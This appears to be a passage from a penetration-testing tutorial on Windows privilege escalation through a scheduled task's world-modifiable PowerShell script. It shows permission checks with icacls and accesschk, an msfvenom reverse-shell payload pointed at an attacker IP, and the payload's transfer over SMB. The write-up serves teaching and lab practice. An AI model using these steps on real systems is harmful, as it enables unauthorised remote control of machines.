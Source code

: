 This is way better in my opinion as we can see things clearly:

{{< image src="/images/posts/subl-scheduled-task-2.png" caption="Sublime Text Scheduled Tasks " src_s="/images/posts/subl-scheduled-task-2.png" src_l="/images/posts/subl-scheduled-task-2.png" >}}

Now we're gonna verify the permissions of the `helloworld.ps1` script with icacls:

```powershell
PS C:\Users\user> icacls "C:\Schedule\helloworld.ps1"
C:\Schedule\helloworld.ps1 BUILTIN\Administrators:(I)(F)
                           NT AUTHORITY\SYSTEM:(I)(F)
                           BUILTIN\Users:(I)(RX)
                           NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

The `Authenticated Users` have to modify permissions enabled and based on the following output we're in this group:

```powershell
PS C:\Users\user> whoami /groups | findstr /i 'authenticated users'
<...SNIP...>
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
```

We can also use accesschk.exe from SysInternals to enumerate the permissions:

```powershell
PS C:\Users\user> C:\Tools\SysinternalsSuite\accesschk.exe /accepteula -quvw user C:\Schedule\helloworld.ps1

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

RW C:\Schedule\helloworld.ps1
        FILE_ALL_ACCESS
```

Let's generate a payload for the system:

```shell
❯ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse.exe
```

Transfer the payload:

```powershell
PS C:\Users\user> copy \\192.168.119.130\share\reverse.exe C:\Tools\reverse.exe
PS C:\Users\user> dir C:\Tools\reverse.exe


    Directory: C:\Tools


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/7/2022   8:30 PM          73802 reverse.exe
```
